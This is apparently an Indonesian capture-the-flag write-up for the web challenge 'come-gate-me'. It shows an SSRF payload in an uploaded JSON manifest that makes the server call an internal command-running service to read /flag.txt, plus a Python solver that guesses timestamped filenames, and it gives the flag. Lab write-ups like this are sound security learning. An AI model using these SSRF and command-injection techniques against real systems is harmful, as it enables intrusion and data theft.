







## come-gate-me

**Difficulty:** Easy

**Author:** xixixiix

**URL:** [http://ctf.noctralupra.space:10313/](http://ctf.noctralupra.space:10313/)

### Description

ini flagnya dynamic, jadi ya testing aja.. ga ada brute force apalgi jadi dukun.. logika aja..

### Solution



Ketika mengakses website, diberikan tampilan untuk mengupload suatu file dengan tambahan hint bahwa file akan disimpan dengan nama yang unik dan petunjuk akan muncul di tempat yang tidak terduga. Diketahui bahwa file yang diterima oleh website adalah file json.

```json
{
  "test": "hello"
}
```



Ketika saya mencoba melakukan upload dengan payload tersebut, web menampilkan error `Bad manifest. Expect: {"source": "http://...", "ext": "txt"}`. Dengan begitu, saya tau bahwa ini adalah model dari tantangan SSRF yang melakukan fetch dari url yang di-upload oleh user melalui file json.



Untuk menggali informasi lebih lanjut, saya mengakses robots.txt dan ditemukan beberapa endpoint menarik. 



Satu - satunya endpoint yang dapat diakses adalah /gate-hint.txt dan memberikan bahwa terdapat service internal dengan host `gate` pada port `8081` yang bisa melakukan RCE melalui `run?cmd=&file=/flag.txt`

```json
{
  "source": "http://gate:8081/run?cmd=cat&file=/flag.txt",
  "ext": "txt"
}
```



Dengan begitu, payload pada file json yang akan diupload adalah seperti tersebut. Ketika diupload, web memberi response bahwa harus menebak output fetch dari payload dan hasil fetch tersebut dapat diakses dari endpoint /get.php?name=[namafile.txt]



Pada source ditemukan hint dari comment yang mengatakan bahwa file disimpan dengan formar `cg_YYYYMMDD_HHMM.ext`

Karena hal ini harus dilakukan secara presisi dengan timing melakukan upload file json maka saya membuat solver seperti berikut ini:

```python
import requests
import json
from datetime import datetime, timezone
import time

url = "http://ctf.noctralupra.space:10313"
upload = "/manifest_upload.php"
download = "/get.php"

ssrf = "http://gate:8081/run?cmd=cat&file=/flag.txt"
EXT = "txt"

def utc_minute_stamp(dt=None):
    if dt is None:
        dt = datetime.now(timezone.utc)
    return dt.strftime("%Y%m%d_%H%M")

def build_filename(utc_min, ext):
    return f"cg_{utc_min}.{ext}"

def upload_manifest():
    manifest = {"source": ssrf, "ext": EXT}
    manifest_str = json.dumps(manifest, separators=(",", ":"))

    t0 = datetime.now(timezone.utc)
    utc_min = utc_minute_stamp(t0)

    files = {"manifest": ("test.json", manifest_str, "application/json")}

    r = requests.post(
        url + upload,
        files=files,
        headers={
            "Origin": "null",
            "Upgrade-Insecure-Requests": "1",
        },
        timeout=10,
    )
    r.raise_for_status()
    return r.text, utc_min

def try_download(utc_min_guess, ext):
    name = build_filename(utc_min_guess, ext)
    params = {"name": name}

    r = requests.get(
        url + download,
        params=params,
        headers={"Upgrade-Insecure-Requests": "1"},
        timeout=10,
    )
    if r.status_code == 200 and r.content:
        return True, r.content, name
    return False, r.text, name

def main():
    txt, utc_min = upload_manifest()
    ok, body, fname = try_download(utc_min, EXT)
    print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if not ok:
        next_min = utc_minute_stamp(datetime.now(timezone.utc))
        if next_min != utc_min:
            print("Minute rolled over; trying current minute.")
            ok, body, fname = try_download(next_min, EXT)
            print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if not ok:
        time.sleep(1)
        cur_min = utc_minute_stamp(datetime.now(timezone.utc))
        ok, body, fname = try_download(cur_min, EXT)
        print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if ok:
        try:
            print(body.decode(errors="replace"))
        except Exception:
            print(body)
    else:
        print("failed.")

if __name__ == "__main__":
    main()
```

Dengan begitu dapat dilakukan otomasi untuk: upload manifest (SSRF), tebak nama file berdasarkan waktu, dan download. Dan output kode berhasil menampilkan flagnya.



### Flag

NCLPS1{ssrf_to_gate_then_predict_the_filename}
